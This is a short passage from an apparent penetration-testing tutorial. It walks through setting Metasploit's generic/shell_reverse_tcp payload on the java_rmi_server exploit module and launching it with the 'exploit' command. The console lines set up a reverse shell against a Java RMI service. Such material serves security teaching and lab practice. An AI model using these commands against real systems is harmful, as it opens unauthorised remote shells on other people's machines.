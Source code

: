 `payload/generic/shell_reverse_tcp` looks fun! Lets use it.

```shell
msf6 exploit(multi/misc/java_rmi_server) > set payload 3
payload => generic/shell_reverse_tcp
```

Finally, you can run the exploit using the `exploit` command (or `run`):

{{< image src="images/java_rmi_server.png" position="left" style="border-radius: 8px;" >}}